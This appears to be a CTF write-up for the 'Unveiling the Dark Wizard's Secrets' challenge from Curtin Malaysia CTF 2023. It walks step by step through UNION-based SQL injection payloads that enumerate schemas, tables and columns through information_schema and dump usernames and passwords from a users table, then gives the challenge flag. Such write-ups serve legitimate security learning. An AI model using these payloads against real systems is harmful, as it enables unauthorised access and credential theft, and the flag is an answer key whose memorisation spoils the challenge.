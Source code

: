# Unveiling the Dark Wizard's Secrets

![image](https://github.com/6E3372/Curtin-Malaysia-CTF-2023/assets/129729880/65e7c18a-383d-471c-95da-33c16adb101b)

## Solution

So for this challenge after I got know the database I search for the user voldemort 

The first payload is I want to search what inside the database
`123' UNION SELECT null, null, table_schema, null, null FROM information_schema.tables;-- -`

Then I go to sqlitraining using this payload
`123' UNION SELECT null, null, table_name, null, null FROM information_schema.tables WHERE table_schema = 'sqlitraining';-- -`

![image](https://github.com/6E3372/Curtin-Malaysia-CTF-2023/assets/129729880/44e575af-6e5b-46b0-a00f-7371a2acf479)

Then I go to user using this `payload 123' UNION SELECT null, null, column_name, null, null FROM information_schema.columns WHERE table_name = 'users';-- -`

Then I go to 

![image](https://github.com/6E3372/Curtin-Malaysia-CTF-2023/assets/129729880/00530a42-98d5-4a51-8205-b40d5cf7cf1c)

Password seem nice soo I go to the table using this payload `123' UNION SELECT null, null, password, null, null FROM users;-- -`

![image](https://github.com/6E3372/Curtin-Malaysia-CTF-2023/assets/129729880/7200f227-2191-4fce-b567-deb18812a8b4)

Boom soo go back to the hint its says username and password of voldemort 

## Flag

CURTIN_CTF{872fc8ed4cae593dc5e62f00157b7db6}

## Add ons

![image](https://github.com/6E3372/Curtin-Malaysia-CTF-2023/assets/129729880/82004823-6ac4-4500-90a1-c9d7418fdb1f)

I modified the payload to see the username

Payload: `123' UNION SELECT null, username, password, null, null FROM users;-- -`
